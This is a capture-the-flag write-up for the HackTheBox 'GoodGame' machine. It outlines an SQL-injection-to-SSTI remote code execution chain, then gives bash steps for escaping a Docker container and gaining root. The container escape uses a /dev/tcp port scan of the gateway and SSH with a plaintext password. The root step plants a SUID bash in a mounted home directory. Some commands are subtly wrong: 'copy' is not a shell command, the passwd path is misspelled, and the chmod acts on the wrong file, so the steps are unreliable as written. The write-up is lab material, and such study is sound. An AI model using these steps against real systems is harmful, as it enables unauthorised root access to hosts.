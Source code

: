 # Docker Escapes and Priviledge Escalation - HackTheBox University CTF "GoodGame"

**Description**: Docker escapes via ssh, priv escala with mounted directory

**RCE**: vulnerable to sql injection -> using sqlmap--> logged in as admin --> vulnerable SSTI -> using subprocess --> *RCE*

## Docker Escapes
```bash
ip a s
#  eth0: 172.19.0.2/16

for PORT in {1..1000}; do timeout 1s bash -c "/dev/tcp/172.19.0.1/$PORT" > /dev/null; done # 172.19.0.1: docker gateway
# Port 22 SSH(come through, not connection refuse)

# SSH require interactive shell --> stabelize it
# with the password we got before, ssh to host docker machine.
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# We're now free from container
```
## Priviledge Escalation
**Still in the docker container**:
```bash
cat /etc/password
# Don't see augustus user
# => Still have augustus home directory => This home directory is being mounted into this docker container

# Step to priv escala
# Step 1: Back to host docker machine
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# Step 2: Copy /bin/bash to augustus home directory(mounted to docker container)
copy /bin/bash /home/augustus

# Step 3: Back to docker container
exit

# Step 4: Because user in the container is root, SUID for /bin/bash
chmod +s /bin/bash

# Step 5: Back to host machine and run it
ssh augustus@172.19.0.1 # ....
/bin/bash
whoami # root
```
